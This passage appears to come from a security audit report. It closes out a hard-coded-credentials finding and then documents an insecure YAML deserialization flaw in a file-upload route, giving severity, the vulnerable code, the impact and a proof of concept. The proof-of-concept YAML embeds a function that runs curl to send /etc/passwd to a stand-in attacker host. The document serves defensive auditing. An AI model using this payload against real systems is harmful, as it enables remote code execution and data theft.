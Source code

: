 ### Additional Controls
1. Use a secrets management system for cryptographic keys
2. Never include private keys or credentials in source code
3. Use different keys for different environments
4. Implement key rotation procedures
5. Consider using a hardware security module (HSM) for key storage in production

### References
1. [OWASP - Cryptographic Storage Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cryptographic_Storage_Cheat_Sheet.html)
2. [CWE-798: Use of Hard-coded Credentials](https://cwe.mitre.org/data/definitions/798.html)
3. [NIST SP 800-57: Recommendation for Key Management](https://nvlpubs.nist.gov/nistpubs/SpecialPublications/NIST.SP.800-57pt1r5.pdf)
4. [OWASP - Key Management Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Key_Management_Cheat_Sheet.html)

   ## SECVULN-008: Insecure Deserialization in YAML Processing

### Metadata
- **Severity**: P1 (High)
- **CWE**: CWE-502: Deserialization of Untrusted Data
- **CVSS 3.1**: 8.8 (High) - CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H
- **Component**: `routes/fileUpload.ts (lines 108-137)`
- **Fix Priority**: High (Within 7 days)

### Description
The application includes vulnerable YAML parsing code that can lead to remote code execution through insecure deserialization. The application uses the yaml.load() function without safe loading options to parse user-uploaded YAML files. This allows attackers to upload specially crafted YAML files containing serialized objects that, when deserialized, can execute arbitrary code on the server.

### Vulnerable Code
```typescript
const yamlString = vm.runInContext('JSON.stringify(yaml.load(data))', sandbox, { timeout: 2000 })
```

### Attack Vector
An attacker can upload a YAML file containing specially crafted serialized objects with embedded code. When the application deserializes this content using the unsafe yaml.load() function, the embedded code can be executed in the server context, even with the VM sandbox.

### Technical Impact
- **Confidentiality**: Ability to read sensitive server data
- **Integrity**: Potential for executing arbitrary code on the server
- **Availability**: Ability to crash the application or consume resources

### Proof of Concept
```yaml
---
- !<tag:yaml.org,2002:js/function> |-
  function f() {
    require('child_process').exec('curl -X POST https://attacker.com/exfil --data "$(cat /etc/passwd)"');
    return true;
  }
# When deserialized, this may execute the function
constructor: !<tag:yaml.org,2002:js/function> |-
  function() {
    return f();
  }
```
